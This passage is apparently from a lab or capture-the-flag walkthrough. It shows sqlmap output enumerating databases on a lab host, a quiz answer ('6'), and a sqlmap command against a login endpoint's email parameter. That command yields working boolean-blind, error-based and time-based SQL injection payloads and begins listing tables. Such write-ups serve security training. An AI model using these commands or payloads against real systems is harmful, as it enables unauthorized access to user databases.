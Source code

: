 ```shell
[18:42:18] [INFO] retrieved: 'performance_schema'
[18:42:18] [INFO] retrieved: 'phpmyadmin'
[18:42:18] [INFO] retrieved: 'test'
available databases [6]:
[*] ai
[*] information_schema
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] test

[18:42:18] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.32.196'
[18:42:18] [WARNING] you haven't updated sqlmap for more than 2022 days!!!

[*] ending @ 18:42:18 /2025-10-16/

root@ip-10-10-129-125:~#
```

**Question 1** How many databases are available in this web application?

**Answer:** `6`

```shell
root@ip-10-10-129-125:~# sqlmap -u 'http://10.10.32.196/ai/includes/user_login?email=test&password=test' -D ai --tables --level=5
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.4#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:46:03 /2025-10-16/

[18:46:03] [INFO] resuming back-end DBMS 'mysql' 
[18:46:03] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: email=test' AND 4324=(SELECT (CASE WHEN (4324=4324) THEN 4324 ELSE (SELECT 7054 UNION SELECT 8357) END))-- UyNy&password=test

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: email=test' OR (SELECT 8539 FROM(SELECT COUNT(*),CONCAT(0x716b717171,(SELECT (ELT(8539=8539,1))),0x717a707071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- JTnW&password=test

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=test' AND (SELECT 7937 FROM (SELECT(SLEEP(5)))Judt)-- YLPd&password=test
---
[18:46:03] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[18:46:03] [INFO] fetching tables for database: 'ai'
[18:46:03] [INFO] retrieved: 'user'
Database: ai
```
